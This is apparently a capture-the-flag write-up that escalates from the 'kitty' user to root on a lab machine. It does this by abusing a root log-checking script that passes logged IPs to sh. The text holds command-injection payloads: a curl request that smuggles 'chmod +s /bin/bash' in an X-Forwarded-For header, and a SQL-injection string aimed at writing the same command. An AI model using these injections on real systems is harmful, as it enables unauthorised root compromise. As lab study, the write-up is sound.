 
FROM [[kitty_user]], we can find the following:

```bash
kitty@kitty:~$ cat /opt/log_checker.sh 
#!/bin/sh
while read ip;
do
  /usr/bin/sh -c "echo $ip >> /root/logged";
done < /var/www/development/logged
cat /dev/null > /var/www/development/logged
```

```bash
kitty@kitty:/var/www/development$ ls -la
total 32
drwxr-xr-x 2 root     root     4096 Nov 15  2022 .
drwxr-xr-x 4 root     root     4096 Nov 15  2022 ..
-rw-r--r-- 1 root     root      493 Nov 15  2022 config.php
-rw-r--r-- 1 root     root     2843 Nov 15  2022 index.php
-rw-r--r-- 1 www-data www-data    0 Jul 20 10:33 logged
-rw-r--r-- 1 root     root      223 Nov 15  2022 logout.php
-rw-r--r-- 1 root     root     5332 Nov 15  2022 register.php
-rw-r--r-- 1 root     root      860 Nov 15  2022 welcome.php
```


**SQL INJECTION**

since only www-data can write to here, let us modify the website. We had access to sql instructions, and at least in mysql there exists the following construct:

```sql
SELECT order_id,product_name,qty FROM orders
INTO OUTFILE '/tmp/orders.txt'
```

Let us use this to create an exploit, in the login, enter the following for the password

```sql
anything';SELECT+';+chmod+%2As+/bin/bash;+echo+"maybie"+'+INTO+OUTFILE+'/var/www/development/logged';
```

First, i discovered that certain privileges need to be granted:

```sql
mysql> SHOW GRANTS FOR 'kitty'@'localhost';
+--------------------------------------------------------------+
| Grants for kitty@localhost                                   |
+--------------------------------------------------------------+
| GRANT USAGE ON *.* TO `kitty`@`localhost`                    |
| GRANT ALL PRIVILEGES ON `devsite`.* TO `kitty`@`localhost`   |
| GRANT ALL PRIVILEGES ON `mywebsite`.* TO `kitty`@`localhost` |
+--------------------------------------------------------------+

mysql> GRANT FILE ON *.* TO 'kitty'@'localhost';
ERROR 1045 (28000): Access denied for user 'kitty'@'localhost' (using password: YES)

```

so we can't write to files :(

**PHP WEBSITE DEVELOPMENT**

while looking around the website we just cracked, i found the development site, which has the convenient code for us 

```php
// SQLMap
$evilwords = ["/sleep/i", "/0x/i", "/\*\*/", "/-- [a-z0-9]{4}/i", "/ifnull/i", "/ or /i"];
foreach ($evilwords as $evilword) {
        if (preg_match( $evilword, $username )) {
                echo 'SQL Injection detected. This incident will be logged!';
                $ip = $_SERVER['HTTP_X_FORWARDED_FOR'];
                $ip .= "\n";
                file_put_contents("/var/www/development/logged", $ip);
                die();
        } elseif (preg_match( $evilword, $password )) {
                echo 'SQL Injection detected. This incident will be logged!';
                $ip = $_SERVER['HTTP_X_FORWARDED_FOR'];
                $ip .= "\n";
                file_put_contents("/var/www/development/logged", $ip);
                die();
        }
}
```

So we need www-data to execute this file with the HTTP_X_FORWARDED_FOR variable set up, we might be able to do this in the case that we are able to set up a server with root higher than /var/www/html or in /var/www/development.

### RECON FOR WWW-DATA

things owned by user

```bash
kitty@kitty:~$ find / -user www-data 2>/dev/null
/run/lock/apache2
/var/www/development/logged
/var/cache/apache2/mod_cache_disk
```

web app already being run by the user. 

- nothing in config.php
- nothing in index.php
- nothing in logout.php
- nothing in register.php
- nothing in welcome.php

searching directories inside of /var to see anything we might be able to modify:

```bash
kitty@kitty:/var$ find ./ -writable 2>/dev/null
./lib/php/sessions
./crash
./tmp
./lock # nothing in here
```

This part i had to look up, but it turns out that using the apache2 frontend you discover another instance running of apache

```bash
kitty@kitty:/var/lock/apache2$ apache2ctl -S

AH00558: apache2: Could not reliably determine the server's fully qualified domain name, using 127.0.1.1. Set the 'ServerName' directive globally to suppress this message
VirtualHost configuration:
127.0.0.1:8080         localhost (/etc/apache2/sites-enabled/dev_site.conf:2)
*:80                   127.0.1.1 (/etc/apache2/sites-enabled/000-default.conf:1)
ServerRoot: "/etc/apache2"
Main DocumentRoot: "/var/www/html"
Main ErrorLog: "/var/log/apache2/error.log"
Mutex watchdog-callback: using_defaults
Mutex default: dir="/var/run/apache2/" mechanism=default 
Mutex mpm-accept: using_defaults
PidFile: "/var/run/apache2/apache2.pid"
Define: DUMP_VHOSTS
Define: DUMP_RUN_CFG
User: name="www-data" id=33 not_used
Group: name="www-data" id=33 not_used

```

```bash
kitty@kitty:/var/lock/apache2$ cat /etc/apache2/sites-enabled/dev_site.conf
Listen 127.0.0.1:8080
<VirtualHost 127.0.0.1:8080>
        # The ServerName directive sets the request scheme, hostname and port that
        # the server uses to identify itself. This is used when creating
        # redirection URLs. In the context of virtual hosts, the ServerName
        # specifies what hostname must appear in the request's Host: header to
        # match this virtual host. For the default virtual host (this file) this
        # value is not decisive as it is used as a last resort host regardless.
        # However, you must set it for any further virtual host explicitly.
        #ServerName www.example.com

        ServerAdmin webmaster@localhost
        DocumentRoot /var/www/development

        # Available loglevels: trace8, ..., trace1, debug, info, notice, warn,
        # error, crit, alert, emerg.
        # It is also possible to configure the loglevel for particular
        # modules, e.g.
        #LogLevel info ssl:warn

        ErrorLog ${APACHE_LOG_DIR}/error.log
        CustomLog ${APACHE_LOG_DIR}/access.log combined

        # For most configuration files from conf-available/, which are
        # enabled or disabled at a global level, it is possible to
        # include a line for only one particular virtual host. For example the
        # following line enables the CGI configuration for this host only
        # after it has been globally disabled with "a2disconf".
        #Include conf-available/serve-cgi-bin.conf
</VirtualHost>

# vim: syntax=apache ts=4 sw=4 sts=4 sr noet

```

So there is a sever that will only listen to addresses from localhost, so we can simply do the following 

```bash
kitty@kitty:/var/www/development$ curl localhost:8080 -X POST -H "X-Forwarded-For: ; chmod +s /bin/bash ; echo this" -d "username=0xaa&password=nothing"
```

after this simply execute 

```bash
/bin/bash -p 
```